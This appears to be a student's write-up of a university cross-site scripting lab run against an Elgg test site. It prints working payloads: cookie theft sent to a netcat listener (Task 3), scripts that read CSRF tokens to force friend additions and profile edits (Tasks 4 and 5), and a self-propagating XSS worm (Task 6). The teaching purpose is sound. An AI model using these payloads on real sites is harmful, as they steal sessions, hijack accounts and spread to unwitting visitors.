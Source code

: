 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend

For a cross-site scripting attack, the information may not need to be sent to the attacker, but can be used directly in the attacker's script as demonstrated in this task. By using cross-site scripting in this case, the attacker (Samy) can use a script to take the user's CSRF tokens and make a request to add himself as a friend:

```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.

## Task 5: Modifying the Victim’s Profile

In addition to adding himself as a friend, Samy can also use cross-site scripting attack in order to modify a user's profile. Again, by taking the CSRF tokens and their guid, Samy can make a malicious POST request once he knows the structure of the request. This can be done by inspecting the contents of the request with HTTP Header Live. The following script will change the profile of anyone visiting Samy's profile to say "Samy is my hero":

```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to modify profile
            let xhr = null;
            xhr = new XMLHttpRequest();
            xhr.open("POST",sendurl,true);
            xhr.setRequestHeader("Host","www.xsslabelgg.com");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send(content);
        }
    }
</script>
```

### Question 3

We need this line in order to make the attack successful since the page redirects to the user's profile after saving their profile. If we remove this line (or set it to `if (true)`), once Samy saves the malicious script, it will immediately send the POST request to change his own profile to say "Samy is my hero" and therefore when future visitors arrive at his profile, that is all they will see. Therefore, we first need to check if the user viewing the page is Samy himself; if so, the attack should not happen.

## Task 6: Writing a Self-Propagating XSS Worm

One of the more widespread effects of XSS can be seen through the creation of self-propagating worms. By combining both scripts above, Samy can then create a self-propagating worm which will modify the visitor's profile and add the same script to their profile which will further spread to visitors of that profile.

```html
<script id="worm">

    window.onload = function() {
        let headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        let jsCode = document.getElementById("worm").innerHTML;
        let tailTag = "</" + "script>";
        let wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend and modify their profile.
        let addFriendURL = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
        let profileEditURL = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero" + wormCode + "&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to add friend
            let addFriend = null;
            addFriend = new XMLHttpRequest();
            addFriend.open("GET",addFriendURL,true);
            addFriend.setRequestHeader("Host","www.xsslabelgg.com");
            addFriend.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            addFriend.send();

            //Create and send xhr request to modify profile
            let changeProfile = null;
            changeProfile = new XMLHttpRequest();
            changeProfile.open("POST",profileEditURL,true);
            changeProfile.setRequestHeader("Host","www.xsslabelgg.com");
            changeProfile.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            changeProfile.send(content);
        }
    }
</script>
```

With this script on Samy's profile, now when Alice visits Samy's profile, her page will now say "Samy is my hero" with the script embedded in it. Then later when Boby visits Alice's page, his will then say "Samy is my hero" along with a copy of the script as well.